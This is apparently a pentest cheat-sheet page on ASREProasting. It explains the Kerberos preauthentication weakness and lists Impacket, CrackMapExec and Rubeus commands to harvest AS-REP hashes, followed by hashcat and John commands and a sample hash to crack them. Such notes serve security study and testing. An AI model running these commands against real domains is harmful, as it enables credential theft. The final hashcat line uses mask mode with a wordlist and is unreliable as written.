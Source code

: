 # ASREProast

>When asking the KDC \(Key Distribution Center\) for a TGT \(Ticket Granting Ticket\), the requesting user needs to send a piece of information \(a timestamp\) encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. This is called Kerberos preauthentication.
>
The TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.
>
Kerberos preauthentication prevents attackers from requesting a TGT for any user, receive the `KRB_AS_REP` message, extract the session key and crack it offline in an attempt to retrieve that user's password.
>
Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.
>
While this attack can be carried out without any prior foothold \(domain user credentials\), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
>
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.
![AS-Rep Setting](asrep.png)

```bash
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass

# with a users file
GetNPUsers.py 'htb.local/' -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt

# create common username permutations with known names
./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt

# with a password
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/USER:Password'

# with an NT hash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec).
```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt
```

The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.
```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```

Depending on the output format used \(`hashcat` or `john`\), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try cracking the hashes.
```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

#### Examples
```
.\Rubeus.exe asreproast

# Get a hash like this
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA

# Add the $23$
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da

# Crack it
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```

References:
https://blog.xpnsec.com/kerberos-attacks-part-2/
https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/